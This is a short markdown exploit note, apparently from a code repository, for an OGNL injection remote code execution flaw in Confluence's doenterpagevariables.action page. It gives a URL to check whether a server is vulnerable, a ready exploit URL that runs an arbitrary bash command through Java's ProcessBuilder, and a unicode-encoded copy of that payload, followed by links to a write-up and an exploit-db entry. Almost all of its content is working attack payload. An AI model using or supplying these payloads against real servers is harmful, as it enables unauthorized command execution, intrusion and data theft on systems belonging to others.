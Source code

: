 ### Check for vulnerability
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaaa\u0027%2b#{3*333}%2b\u0027bbb  
```

### Exploit
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaa'+ #{ ""["class"].forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("var x=new java.lang.ProcessBuilder;x.command(['/bin/bash','-c','<command>']);x.start()"); } +  
```

### Exploit encoded
```
https://<rhost>/pages/doenterpagevariables.action?queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022].forName(\u0022javax.script.ScriptEngineManager\u0022).newInstance().getEngineByName(\u0022js\u0022).eval(\u0022var x=new java.lang.ProcessBuilder;x.command([\u0027/bin/bash\u0027,\u0027-c\u0027,\u0027'.<command>.'\u0027]);x.start()\u0022)}%2b\u0027  
```

### References:
* https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md  
* https://www.exploit-db.com/exploits/50243  

